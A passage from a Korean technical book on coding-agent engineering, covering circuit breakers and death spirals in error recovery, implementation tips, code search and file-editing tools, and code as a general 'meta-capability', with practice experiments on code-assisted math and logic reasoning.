**종료: 모든 복구 경로에는 상한이 있어야 한다.** 복구 메커니즘 자체도 실패할 수 있으므로, 모든 복구 경로에는 명확한 서킷 브레이커 상한이 있어야 한다. 컨텍스트 압축이 연속으로 여러 차례 실패하면 압축을 포기하고, 권한 분류가 연속 실패하면 사람에게 묻는 것으로 후퇴하며, 출력 잇기는 최대 고정 횟수만 시도한다. 임계값은 어디서 오는가? 짐작이 아니라 생산 데이터에서 온다. 클로드 코드의 압축 서킷 브레이커를 예로 들면, "연속 3회"라는 임계값은 실제 세션 통계에서 나왔다. 한때 어떤 세션이 이 복구 경로에서 3천 번 넘게 연속 실패했고, 이런 무효 재시도만 전 세계에서 매일 약 25만 건의 API 호출을 낭비했다. 50회 이상 연속 실패를 겪은 세션도 천 개가 넘는다. 3회는 "대다수 장애가 이전에 이미 복구됨"과 "계속 재시도해도 희망이 거의 없음" 사이의 경험적 변곡점이다.

단점 서킷 브레이커보다 더 은밀한 것은 **데스 스파이럴**이다. 오류 경로에서 촉발된 논리 자신이 다시 LLM을 호출하고, 다시 오류가 나고, 연쇄 촉발된다. 실제 연쇄 형태 하나를 보자. 에이전트가 컨텍스트 넘침으로 멈추고, "종료 시 자동으로 코드를 커밋"하는 정지 훅(에이전트 종료 시 자동 실행되는 정리 논리)을 촉발하며, 훅이 LLM을 호출해 commit message를 생성하다가 다시 컨텍스트 넘침이 나고, 다시 훅을 촉발한다. 방어는 두 가지에 의존한다. 오류 경로에서는 다시 모델을 호출할 부작용 논리를 전부 끄는 것(자동 기억 추출 같은 보조 기능 하나를 잃는 한이 있더라도), 그리고 재귀 깊이 카운터로 잔여 연쇄를 검출해 끊어 놓는 것이다. 마지막으로, 모든 자동화 메커니즘 위에는 전역 종료와 승급 조건이 또 필요하다. 최대 반복 차수, 세션 예산 상한, 그리고 연속 실패가 임계값을 넘으면 인력 개입으로 승급하는 것(제4장의 거부 서킷 브레이커가 그 예)이다.

제1장의 사고 문제로 돌아가 보자. 도구 결과 누락 외에도, 도구가 같은 오류를 반복 보고, 환각 호출, 컨텍스트 압축의 상태 손실, 과제 자체가 풀이 불가능한 것 등이 모두 에이전트를 순환에 빠뜨릴 수 있다. 검출은 "오류 분류 + 패턴 인식"에 의존하고, 복구는 "단계적 승격"에 의존하며, 종료는 "서킷 브레이커 + 전역 상한 + 인력 승급"에 의존한다. 셋을 합치면, 하네스가 "에이전트가 영원히 돌 수 있다"는 문제에 대한 완결된 답이다. 이 메커니즘이 해결하는 것은 "모델 능력 부족" 문제가 아니라 "경계 조건에서의 시스템 강인성" 문제다. 모델은 갈수록 강해지겠지만, 네트워크는 끊기고, 프로세스는 죽고, 사용자는 예상 밖의 조작을 한다. 더 본질적으로 말하면—**에이전트의 신뢰성은 오류를 저지르느냐에 달린 것이 아니라, 각 부류의 오류에 대응하는 검출, 복구, 종료 경로가 있는지에 달려 있다.**

### 코딩 에이전트의 구현 팁

위의 작업 흐름은 이상적 상태다. 실제로 잘 돌아가게 하려면 몇 가지 구체적 구현 팁이 더 필요하다. 사고의 질을 보장한다는 전제 아래, 응답 속도를 끌어올리고 컨텍스트 소비를 낮추는 팁이다. 이들은 제2장과 제4장에서 논의한 범용 에이전트 기술이 프로그래밍 영역에서 구체적으로 적용된 것이다.

**병렬 도구 호출, 스트리밍 실행과 연쇄 중단.**

전통적 에이전트 구현은 흔히 직렬 모델을 채택한다. 하나의 도구 호출을 생성하고, 실행하고, 결과를 받고, 다음 단계를 결정한다. 이런 엄격한 줄서기 대기는 많은 시간을 낭비한다.

현대의 코딩 에이전트는 스트리밍 응답을 충분히 활용해야 한다. 제2장에서 모델 출력 순서를 논의할 때 이 메커니즘을 소개했다. 첫 번째 도구 호출의 매개변수가 온전히 생성되어 검증을 통과하면, 모델이 후속 도구 호출을 생성할 때까지 기다리지 않고 곧바로 실행을 시작할 수 있다. 예컨대 모델이 한 번의 추론에서 코드 검색, 설정 파일 조회, 로그 읽기 세 도구 호출을 연속으로 출력한다면, 첫 호출의 매개변수가 온전해져 검증을 통과하자마자 즉시 시작되어, 뒤의 두 호출의 생성 과정과 겹쳐 진행된다. 서로 독립적인 호출 사이에는 줄서기 대기가 아니라 병렬 실행도 가능하다. 이런 겹침 실행은 종단 간 지연을 눈에 띄게 낮추어, 에이전트의 응답을 더 민첩하게 만든다.

병렬 실행의 다른 측면은 장애 처리다. 각 도구 정의는 자신이 동시 실행을 지원하는지 선언해야 한다(기본은 아니요, 실패 안전). 어떤 호출이 실패할 때, 연쇄 중단 메커니즘으로 같은 묶음에서 병렬로 시작되어 그 결과에 의존하는 다른 호출을 종료하되, 독립적인 호출과 부모 조작에는 영향을 미치지 않는다. 이는 하네스 엔지니어링 절의 "장애 경계 통제" 원칙의 구체적 구현이다.

**컨텍스트의 정밀 관리.**

코딩 에이전트가 직면한 근본 과제는, 코드베이스가 대개 매우 크지만 모델의 컨텍스트 창은 한정되어 있다는 것이다. 최첨단 모델이 수백만 토큰을 지원한다고 해도, 코드베이스 전체를 한꺼번에 컨텍스트에 밀어 넣는 것은 경제적이지도 않고 필요하지도 않다. 지능적 컨텍스트 관리는 여러 층위에서 전개되어야 한다.

파일 읽기 층위에서, 에이전트는 항상 파일의 전체 내용을 읽어서는 안 된다. 대형 파일에 대해서는 도구가 줄 번호 범위로 특정 단편을 읽도록 지원해야 한다. 예컨대 수천 줄짜리 파일을 전부 불러오는 게 아니라 100번째 줄부터 150번째 줄까지만 읽는 것이다. 더 중요한 것은, 반환되는 내용에 줄 번호 표기를 덧붙이는 것이다. 각 코드 줄의 앞에 실제 줄 번호를 접두사로 붙인다. 이 단순해 보이는 설계는 큰 가치를 가져온다. 모델이 "`src/main.py`의 42번째 줄"을 정확히 참조할 수 있어, 모호함이 줄고 후속 편집 조작이 더 신뢰성 있게 된다.

명령 실행 층위에서, 터미널 출력의 처리도 마찬가지로 신중해야 한다. 컴파일이나 테스트는 수천 줄의 출력을 낼 수 있으며, 전부 컨텍스트에 주입하면 예산이 금세 바닥난다. 제4장이 소개한 긴 출력 절단과 영속화 메커니즘이 여기서 널리 쓰인다. 출력의 앞부분 몇 줄(대개 오류 맥락을 포함)과 뒷부분 몇 줄(대개 오류 요약을 포함)을 남기고, 중간은 한 줄의 안내로 대체하며, 전체 출력은 임시 파일에 저장해 필요할 때 살펴볼 수 있게 한다는 점도 밝힌다.

**환경 정보의 동적 주입.**

이것은 제2장이 소개한 에이전트 상태 표시줄 기술이 코딩 에이전트에서 집중적으로 발휘되는 것이다. 범용 에이전트와 달리, 코딩 에이전트는 실행 환경의 상태에 고도로 의존한다. 매 추론 전에 컨텍스트 끝에 에이전트 상태 표시줄 형태로 다음의 핵심 환경 정보를 주입해야 한다.

- **현재 작업 디렉터리**: 경로 참조가 틀리지 않게 보장
- **깃 브랜치**: 주 브랜치에서 작업 중인지 특성 브랜치에서 작업 중인지 파악
- **최근 커밋 기록**: 프로젝트의 진화 맥락 이해
- **미스테이지된 변경과 스테이지된 변경 개요**: 이미 어떤 수정을 했는지 명확히 파악

이 정보는 정적 시스템 프롬프트에 하드코딩되어서는 안 된다. 그렇게 하면 KV Cache 효율이 깨진다. 동적이고 추가식인 에이전트 상태 표시줄로 실시간 생성하여 주입해야 한다. 이 방식으로 에이전트는 "환경 인식" 능력을 얻어, 매 의사결정이 시대에 뒤떨어진 가정이 아니라 현재 상태에 대한 정확한 이해에 기반한다.

**명령 실행 환경의 상태 영속화.**

코드와 상호작용할 때, 많은 조작이 환경 상태에 의존한다. 디렉터리 전환, 가상 환경 활성화, 환경 변수 설정, 백그라운드 서비스 시작이 그것이다. 매번 명령을 완전히 새로운 셸에서 실행한다면, 이 상태는 전부 손실된다. 에이전트가 `cd`로 프로젝트 디렉터리로 전환해도 다음 명령에서는 다시 루트 디렉터리로 돌아가, 같은 설정을 반복해야 한다. 더 나쁜 것은, 어떤 조작(파이썬 가상 환경 활성화 등)의 효과는 현재 셸 세션에서만 유효하여 세션을 넘어 전달할 수 없다.

따라서 영속화된 터미널 세션을 하나 유지해야 한다. 에이전트가 시작될 때 만들어져 전체 상호작용 과정 동안 활성 상태로 유지된다. 매번 명령은 이 공유 터미널에서 실행되어, 작업 디렉터리, 환경 변수, 세션 상태를 보존한다. 이런 설계는 인간 개발자의 작업 습관에 더 부합한다. 우리는 대개 장기간 실행되는 터미널 창 하나에서 작업한다. 물론 에이전트도 병렬 과제를 지원하기 위해 격리된 터미널을 시작하는 능력을 남겨 두어야 하지만, 영속화된 세션이 기본 모드여야 한다.

**즉각적인 문법 피드백 메커니즘.**

이것은 에이전트 상태 표시줄 기술의 가치를 다시 한번 보여 준다. 에이전트가 코드를 수정한 뒤, 사용자가 명확히 테스트를 요구할 때까지 문법 검사를 미뤄서는 안 된다. 더 효율적인 방식은, 파일 쓰기 조작이 완료되자마자 도구 층이 해당 린터나 문법 검사기를 자동으로 실행하고, 검사 결과를 도구 반환값의 일부로 에이전트에 제시하는 것이다. 문법 오류가 검출되면, 에이전트는 다음 차례 추론에서 곧바로 상세 오류 정보를 보게 된다. 마치 프로그래머가 IDE에서 괄호를 잘못 치면 편집기가 즉시 빨간 줄로 알려 주는 것과 같다. 이 즉각적 피드백 메커니즘은 오류 수정 비용을 눈에 띄게 낮춘다. 에이전트가 오류가 도입된 바로 그 순간에 교정할 수 있어, 테스트를 실행할 때까지 문제를 미루지 않기 때문이다.

이 다섯 가지 구현 팁—병렬과 스트리밍, 컨텍스트 관리, 환경 인식, 상태 영속화, 즉각적 피드백—이 함께 효율적인 코딩 에이전트의 기술적 기반을 구성한다. 이들은 고립된 최적화 지점이 아니라 서로 협동하는 설계 결정이며, 함께 하나의 목표를 향한다. 에이전트가 경험 많은 개발자처럼 매끄럽게 작업하게 만드는 것이다.

### 코딩 에이전트의 검색 도구

거대한 코드베이스에서 관련 코드를 위치시키는 것은 코딩 에이전트 작업의 출발점이다. 그림 5-3은 몇 부류의 상호 보완적 검색 도구를 비교하며, 성숙한 코딩 에이전트가 과제의 성격에 따라 검색 방식을 어떻게 선택해야 하는지를 보여 준다.




**정규표현식 내용 매칭**(grep/ripgrep): 가장 전통적인 검색 방식으로, 파일 내용을 한 줄씩 훑으며 패턴 매칭을 수행한다. 에이전트가 찾으려는 구체적 텍스트(함수명, 변수명, 오류 메시지)를 알고 있을 때, 모든 출현 위치를 빠르고 정확하게 찾아낸다. 정규표현식(특수 기호로 텍스트 패턴을 기술하는 문법으로, 예컨대 `def handle.*`는 `handle`로 시작하는 모든 함수 정의에 매칭)의 강력한 표현력은 복잡한 패턴도 잡아 내어, 글자 그대로의 텍스트뿐 아니라 특정 구조에 맞는 코드 단편까지 검색할 수 있다. 실사에서는 파일 유형 필터(파이썬 파일만 검색)와 경로 패턴 필터(테스트 디렉터리 제외)를 지원하여 노이즈를 줄여야 한다. 근본적 한계는 텍스트 상으로 매칭되는 것만 찾을 수 있고 의미를 이해하지는 못한다는 것이다. "사용자 인증"을 검색할 때 "인증"이라는 글자는 없지만 실제로 로그인 논리를 처리하는 함수는 찾지 못한다.

**파일명 패턴 매칭**(glob): 파일 내용은 보지 않고, 파일 시스템의 경로 구조에서 패턴에 맞는 파일만 찾는다. 예컨대 `**/*.test.ts`는 모든 타입스크립트 테스트 파일을 재귀적으로 찾고, `src/components/**/Button.tsx`는 components 아래 임의의 깊이에서 Button.tsx를 찾는다. 내용 검색보다 훨씬 빠르다(파일을 열어 읽을 필요가 없으므로). 에이전트가 프로젝트 구조를 탐색하는 첫걸음으로, 전체 파일 시스템을 빠르게 훑어 프로젝트의 조직적 틀을 세운다.

**의미 코드 검색**: 앞의 두 정확 매칭 방식과 달리, 질의와 코드의 "의미"를 이해하려 한다. 두 핵심 문제를 풀어야 한다.

- **구조 인식 청킹**: 코드는 엄격한 문법 구조를 가지므로, 고정 문자 수로 맹목적으로 자르는 것이 아니라 함수, 클래스, 메서드 등 완결된 의미 단위로 나눠야 한다.
- **혼합 검색**(제3장에서 이 기술 스택을 상세히 소개): 벡터 임베딩(조밀한 임베딩)은 의미가 비슷하지만 단어가 다른 코드를 잘 찾는다(예: "사용자 신원 확인"을 검색하면 `check_credentials`라는 이름의 함수를 찾는다). 키워드 매칭(BM25, 단어 빈도와 문서 길이에 기반한 고전적 검색 알고리즘)은 함수명과 변수명의 정확 매칭에 강하다. 둘을 병렬로 실행한 뒤 리랭커(reranker, 교차 인코더로 후보 결과의 관련성을 정밀하게 정렬) 모델로 합쳐 정렬하여, 상호 보완적으로 덮는다.

의미 검색은 탐색적 과제에 특히 적합하다. 낯선 코드베이스에서 "데이터베이스와 상호작용하는" 코드나 "사용자 입력 검증을 처리하는" 코드를 찾는 경우가 그 예다.

다만 의미 검색을 위해 임베딩 인덱스를 구축할 가치가 있는지에 대해서는, 업계에 뚜렷한 노선 대립이 있다. 클로드 코드로 대표되는 터미널형 에이전트는 **의도적으로 임베딩 인덱스를 구축하지 않으며**, 에이전트다운 grep + glob 현장 검색에만 의존한다. 이렇게 하면 코드가 진화하며 계속 낡아가는 인덱스를 유지할 필요도 없고, 일련의 인덱스 인프라도 생략할 수 있으며, 코드 임베딩을 제3자 서비스로 외부 전송하는 위험까지 피할 수 있다. Cursor 같은 IDE형 도구는 정반대의 길을 간다. **파일 간 의미 회상**을 위해 인덱스 구축 비용을 기꺼이 치르고, 임베딩 인덱스로 대형 코드베이스에서 의미는 관련되지만 단어가 다른 단편을 빠르게 찾아낸다. 두 노선의 트레이드오프는 본질적으로 "인프라와 데이터 외부 전송의 대가"와 "파일 간 의미 회상의 수익" 사이의 저울질이다.

**기호 수준 정의와 참조 찾기**: IDE의 "정의로 이동", "모든 참조 찾기" 능력(LSP, 즉 Language Server Protocol, 언어 서버 프로토콜—편집기와 언어 분석 엔진이 통신하는 표준 프로토콜)에 기반하여, 동명 기호의 정의와 호출을 구분할 수 있다. 예컨대 `authenticate`가 42번째 줄에서는 함수 정의이고 189번째 줄에서는 호출임을 알아내지만, 텍스트 검색은 그 문자열이 포함된 모든 줄만 찾을 수 있다. 코드 리팩터링에 특히 중요하다. 함수 이름을 바꿀 때 단순한 텍스트 검색에만 의존할 수 없다(함수명이 주석이나 문자열에 나타날 수 있으므로), 반드시 기호 검색으로 정의와 모든 실제 호출 지점을 정확히 위치시켜야 한다.

이 네 가지 검색 방식은 상호 보완적 도구상자를 이루며, 실제로는 흔히 조합해 쓴다. 먼저 의미 검색으로 관련 모듈을 찾고, 이어 정규 매칭으로 구체적 코드 줄을 정확히 위치시키며, 마지막으로 기호 검색으로 호출 사슬을 추적한다. "거칠 것에서 고운 것으로, 의미에서 문법으로"라는 점진적 전략이다.

### 코딩 에이전트의 파일 편집 도구

파일 편집의 어려움은 조작 자체에 있는 것이 아니라, LLM이 어떻게 효율적이고도 신뢰성 있게 시스템에게 "어디를, 어떻게 바꿀지"를 알릴 수 있느냐에 있다. 그림 5-4는 다섯 가지 파일 편집 방안을 비교하며, 인간의 언어 표현과 기계의 정확 실행 사이의 근본적 긴장을 보여 준다.




**차이 기술 + 적용 모델(Apply Model)**: 모델이 직접 파일을 어떻게 편집할지 지정하는 것이 아니라, 변경 기술 한 부분을 생성한다. 그것은 git diff(`git diff` 명령이 출력하는 것과 같은 "어떤 줄이 삭제되고 어떤 줄이 추가되었는지" 형식) 비슷한 차이 텍스트일 수도 있고, 생략 표시가 딸린 코드 골격(여기는 변경 없음 같은 주석으로 수정하지 않은 부분을 건너뛰는)일 수도 있다. 이 기술은 이어서 전용 "적용 모델(Apply Model)"—대개 더 작고 빠른 또 하나의 LLM—에 넘겨져, 원본 파일과 병합하여 완전한 새 파일을 산출하는 일을 맡는다. 이 관심사 분리 설계는 주 모델은 고수준 코드 논리에, 적용 모델은 저수준 텍스트 조작에 전념하게 한다. 단순 구현의 취약성은 병합 단계에 있다. 변경 기술과 파일의 실제 코드가 미세하게 어긋날 때 같은 위치인지 판단해야 하고, 비슷한 코드 단편이 여럿일 때 잘못된 곳에 병합될 수 있다. Cursor가 이 노선을 지속적으로 발전시킨 대표다. 주 모델이 생략 표시가 딸린 코드 골격을 출력하면, 전용 훈련된 fast-apply 소형 모델이 완전한 파일을 다시 써 내고, 추측 해독(speculative decoding, 원본 파일 내용을 초안 삼아 병렬로 검증)으로 병합 속도를 초당 수천 토큰까지 끌어올린다. 공학적 투자로 이 노선의 신뢰성과 속도를 바꾼 것이다.

**옛 문자열에서 새 문자열로**(Old String → New String): 클로드 코드가 채택한 방안. 모델이 old string(교체 대상 원문)과 new string(교체 후 새 텍스트)을 제공하면, 프레임워크가 단순한 문자열 찾기-바꾸기를 실행한다. 장점은 예측 가능성과 투명성이다. old string이 파일에 존재하고 유일하면 성공, 그렇지 않으면 실패하며, 애매한 경우가 없다. 대가는 대단위 코드를 삭제할 때 원래 내용 전부를 완전히 출력해야 한다는 것이고, 한 글자라도 어긋나면 매칭이 실패한다. 같은 코드가 여러 번 나타나면 더 긴 맥락을 제공해 모호함을 제거해야 한다.

**줄 번호 위치 지정**(Old Line Numbers → New String): 모델이 "X번째 줄에서 Y번째 줄까지 삭제하고 새 내용을 삽입"이라고 지정한다. 줄 번호는 정확하고 애매함이 없으며, 대단위 삭제에는 숫자 두 개면 충분하다. 그러나 모델이 줄 번호를 "세는" 데는 오류가 잦고, 특히 파일이 길 때 더 그러하다. 실제로는 파일을 읽을 때 각 줄에 줄 번호 표기를 붙여 완화하는 경우가 많지만, 매 편집 뒤 후속 줄 번호가 달라져, 다중 위치 편집의 병렬성이 제약된다.

**Vim형 편집 명령**: Vim 편집기의 명령 체계를 빌려와, 복사, 잘라내기, 붙여넣기 등 풍부한 조작을 지원한다. 코드를 재구성(함수를 한 곳에서 다른 곳으로 이동)할 때 매우 효율적이다. 그러나 명령 문법의 학습 부담이 크며, 가장 강한 모델은 비교적 잘 쓰지만, 더 작은 모델은 오류율이 눈에 띄게 올라간다.

**문자열 처음-끝 매칭**(Old String Start + End → New String): 옛 문자열 교체 방안의 개선판으로 볼 수 있다. 모델이 온전한 old string을 출력할 필요 없이, 삭제할 내용의 처음 몇 줄과 마지막 몇 줄만 제공하고, 중간은 생략할 수 있다. 프레임워크는 이 처음과 끝을 매칭하여 교체 영역을 위치시키며, 이 "처음-끝" 조합이 파일에서 유일하기만 하면 정확히 위치시킨다. 이 방안은 텍스트 교체의 신뢰성과 줄 번호 방안의 효율을 종합한 것이다. 대단위 코드 삭제를 처리할 때 수백 줄의 원본 코드를 출력할 필요 없이 경계만 보여 주면 된다. 동시에 추상적 줄 번호가 아닌 여전히 내용 매칭에 기반하므로, 모델이 오류를 범할 위험은 상대적으로 낮다.

**실천 제안**. 종합하면, 주류 코딩 에이전트는 두 노선에서 각기 대표를 갖는다. 클로드 코드는 "옛 문자열에서 새 문자열로" 방안을 채택하여—신뢰성 우선, 구현 단순, 추가 모델 불필요—을 취한다. Cursor는 적용 모델 노선을 극한까지 밀어—전용 fast-apply 모델의 훈련과 추론 투입으로 더 높은 편집 처리량을 바꾼다. 자체 에이전트를 구축하는 사람에게 "옛 문자열에서 새 문자열로"가 가장 안정적인 출발점이다. 대단위 변경을 처리할 때는 "문자열 처음-끝 매칭"이 더 경제적 절충이다. 줄 번호 방안은 IDE 깊이 통합(편집기가 실시간으로 줄 번호 매핑을 유지하고, 매 편집 뒤 즉시 모델에 다시 공급) 시나리오에서만 신뢰성을 갖추며, 그렇지 않으면 줄 번호 표류로 쉽게 실패한다.

## 코드: 범용 에이전트의 메타 능력

앞부분에서는 신뢰할 수 있는 코딩 에이전트를 어떻게 구축하는지를—아키텍처 설계, 도구 구현, 하네스 엔지니어링까지—보여 주었다. 그러나 코드 생성의 가치는 프로그램을 작성하는 것보다 훨씬 더 크다.

> **"메타 능력"이란 무엇인가?** 보통 능력은 에이전트가 구체적인 어떤 일을 할 수 있다는 뜻이다. 질문에 답하고, 어떤 API를 호출하고, 글 한 문단을 생성하는 것 등. **메타 능력(meta-capability)**은 "다른 능력을 만들어 낼 수 있는" 능력이다. 에이전트는 그것으로 현장에서 새 도구, 새 제약, 새 표현 형태를 즉석에서 작성하여 과제를 완수하며, 모든 능력을 미리 만들어 둘 필요가 없다. 코드 생성은 바로 이런 메타 능력이다. 정확하고, 실행 가능하고, 조합 가능하여, 새 도구(스크립트, API 호출 시퀀스)도, 새 제약(단언, 검증 규칙)도, 새 표현 형태(HTML 폼, PPT, 비디오 프레임)도 산출할 수 있다.

이런 까닭에, 코드가 에이전트 체계에서 맡는 역할은 "프로그램 작성"을 훨씬 넘어선다. 이어지는 여섯 절에서 이 메타 능력이 프로그래밍 바깥에서 발휘되는 여섯 방향을 각각 보여 준다. (1) 사고 도구—코드로 자연어를 대체해 엄밀한 추론; (2) 비즈니스 규칙 제약—코드로 정책을 고정해 모델 환각 방지; (3) 멀티미디어 생성—코드로 PPT/비디오/시각화 생성; (4) 시스템 어댑터—코드로 이기종 API 연결; (5) 제네러티브 UI—코드로 폼과 인터페이스 동적 생성; (6) 부트스트래핑—코드로 새 에이전트 창조.

이 여섯 방향은 나란히 나열한 것이 아니라 "메타 능력이 작용하는 대상"에 따라 안에서 바깥으로 조직된 것이다.

1. **사고 자체**—오류 나기 쉬운 자연어 추론을 코드로 대체(사고 도구).
2. **비즈니스 규칙**—모호한 정책을 실행 가능한 제약으로 인코딩(비즈니스 규칙 제약).
3. **콘텐츠 표현**—PPT, 비디오, 시각화 산출물 생성(멀티미디어 생성).
4. **시스템 인터페이스**—이기종 API를 연결하고, 데이터 형식 진화에 자동 적응(시스템 어댑터).
5. **사용자 인터페이스**—폼과 상호작용 인터페이스를 동적 구축(제네러티브 UI).
6. **에이전트 자신**—코드로 새 에이전트를 창조해 부트스트래핑 형성(제8장의 가중치를 바꾸지 않는 "자기 진화"와 구별).

이 "안에서 바깥으로, 결국 자신으로 돌아오는" 맥락을 따라 읽으면, 메타 능력으로서의 코드가 갖는 통일적 가치를 더 또렷이 볼 수 있다. 필요에 따라 새 도구를 만드는 것은 이 메타 능력의 더 나아간 연장이며, 제8장에서 전개한다.

### 코드를 사고 도구로

LLM은 자연어 이해와 생성에서 놀라운 성과를 보이지만, 정확한 계산, 기호 조작, 엄밀한 논리 도출에서는 근본적 약점이 있다. 이유는 이렇다. 모델의 사고는 본질적으로 확률적이고 근사적인 반면, 수학과 논리 문제는 확정적이고 정확한 답을 요구한다. 구체적 대비 하나로 설명해 보자.

```
문제："한 반에 40명 학생이 있고, 그중 60%는 수학을 수강하고, 45%는 물리를 수강하며, 25%는 둘 다 수강한다.
      물리만 수강하고 수학은 수강하지 않은 학생은 몇 명인가?"

순수 자연어 추론(오류 나기 쉬움)：          코드 추론(정확하고 검증 가능)：
"60%가 수학 = 24명,                      math = int(40 * 0.60)    # 24
 45%가 물리 = 18명,                      phys = int(40 * 0.45)    # 18
 25%가 둘 다 = 10명,                     both = int(40 * 0.25)    # 10
 물리만 = 24 - 10 = 14명"                only_phys = phys - both  # 8
→ 수학 인원수에서 잘못 빼서, 답 오류       → print(only_phys)  # 8 ✓
```

LLM이 문제를 이해하고 코드를 작성하고, 코드 인터프리터가 정확한 계산을 담당한다. 이런 분업은 둘 각자에게 제 몫을 다하게 한다.

매스매티카(Mathematica)의 창시자 스티븐 울프럼(Stephen Wolfram)은 이에 대해 깊은 통찰을 제시했다. LLM이 등장하기 전에 이미 정확한 수학 계산을 할 수 있는 시스템이 존재했다. 그것들은 **기호 계산(Symbolic Computation)** 방식으로 작동하며, 근사 수치가 아니라 수학 기호로 식을 다룬다. 예컨대 보통 계산기는 $\sqrt{2}$를 1.414로 계산하지만, 기호 계산 시스템은 $\sqrt{2}$의 정확한 형태를 유지하고, 필요할 때만 소수로 바꾼다. 울프럼이 만든 울프럼 알파(Wolfram Alpha)가 바로 그런 시스템이다. 사용자가 수학 문제를 입력하면 정확한 답을 반환한다. 그러나 그것의 자연어 이해는 꽤 취약하고 덮개도 좁다. 내장된 문법 파싱에 의존하여 인식할 수 있는 물음 형태가 제한적이고, 물음을 조금만 바꿔도 파싱이 실패할 수 있으며, 개방 영역의 다단계 추론은 더더욱 처리하지 못한다. LLM은 정확히 이 약점을 보완한다. LLM은 다양한 자연어 표현을 이해하는 데 능하지만 정확한 계산은 서툴다. 새로운 협동 모드는 이렇다. LLM이 사용자의 자연어 문제를 이해하고, 그 안의 수학 또는 논리 구조를 식별하여 형식 언어(매스매티카 언어나 파이썬의 SymPy 라이브러리 등)로 변환한다. 이어서 전용 기호 계산 엔진이나 제약 해석기에 넘겨 실행하고 정확한 결과를 얻는다.

> **실험 5-1 ★★: 코드 생성 도구로 수학 문제 풀이 능력 향상**
>
> **실험 목표**: 에이전트가 코드 인터프리터로 수학적 사고를 보조했을 때의 정확도 향상을 검증한다.
>
> **기술 방안**: sympy, numpy, scipy 등 수학 라이브러리가 설치된 파이썬 샌드박스를 에이전트에 장착한다. 에이전트는 수학 문제를 만나면 파이썬 코드로 형식화한다. sympy로 기호 계산(미적분, 방정식 풀이), scipy로 수치 최적화, numpy로 행렬 연산을 수행한다. 생성된 코드는 샌드박스에서 실행되어 정확한 결과를 반환한다.
>
> **인수 기준**: AIME 양식 문제(미국 수학 초청대회와 대응)로 평가한다. 순수 사고 사슬과 코드 보조 사고의 정확도를 대비하여, 코드 보조 모드가 유의미하게 더 높아야 한다. 코드가 수학 라이브러리를 올바르게 사용하는지, 풀이 과정이 논리적으로 명확한지 확인한다.
>

> **실험 5-2 ★★: 코드 생성 도구로 논리 사고 능력 향상**
>
> **실험 목표**: 제약 해석 코드로 논리 사고를 보조하는 에이전트의 능력을 평가한다.
>
> **기술 방안**: python-constraint 라이브러리를 포함한 코드 인터프리터를 에이전트에 장착한다. 에이전트는 논리 퍼즐(기사와 악당 문제 등)을 형식적 제약 정의로 변환한다. 모든 변수(각 섬 주민의 신분)를 식별하고, 제약 조건("기사는 참말만 한다" 등의 도출)을 정의하며, 제약을 호출해 해석기가 모든 제약을 만족하는 해를 탐색하게 한다.
>
> **인수 기준**: [K&K Puzzle 데이터셋](https://huggingface.co/datasets/K-and-K/perturbed-knights-and-knaves)으로 평가하여, 코드 보조 모드의 풀이 정확도가 90% 이상이며 순수 사고 모드보다 유의미하게 높아야 한다.
>

